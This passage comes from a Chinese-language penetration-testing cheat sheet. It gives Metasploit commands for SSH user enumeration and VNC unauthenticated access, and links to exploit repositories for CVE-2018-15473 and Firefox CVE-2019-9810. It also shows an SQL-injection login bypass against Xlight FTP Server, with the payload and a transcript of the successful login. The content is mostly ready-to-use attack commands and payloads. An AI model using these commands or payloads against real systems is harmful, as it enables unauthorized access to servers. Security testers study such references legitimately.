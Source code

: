 - POC | Payload | exp
    - [trimstray/massh-enum](https://github.com/trimstray/massh-enum)
    - [Rhynorater/CVE-2018-15473-Exploit](https://github.com/Rhynorater/CVE-2018-15473-Exploit)

- MSF 模块
    ```bash
    use auxiliary/scanner/ssh/ssh_enumusers
    set rhosts <ip>
    set USER_FILE <aaa.txt>
    run
    ```

### VNC
**未授权访问漏洞**
- MSF 模块
    ```bash
    use auxiliary/scanner/vnc/vnx_none_auth
    set rhosts <ip>
    set threads 50
    run
    ```

---

## 浏览器
**资源**
- [vngkv123/aSiagaming](https://github.com/vngkv123/aSiagaming)

### Firefox
**CVE-2019-9810**
- POC | Payload | exp
    - [0vercl0k/CVE-2019-9810](https://github.com/0vercl0k/CVE-2019-9810)

---

## 文件服务
### ftp
**Xlight FTP Server < 3.2.1 user 参数 SQL 注入漏洞**
- 简介

    在执行 ODBC 认证过程中 Xlight FTP Server 没有正确地过滤用户所提交的用户名和口令字段,远程攻击者可以用"OR ‘1’=’1’ ;#"替换用户名绕过认证登录到服务器.

- 示例
    ```bash
    220 Xlight FTP Server 3.2 ready...
    User (server-4:(none)) : \' OR \'1\'=\'1\' ;#
    331 Password required for \' OR \'1\'=\'1\' ;#
    Password : type anything
    230 Login OK
    ftp&gt;
    ```
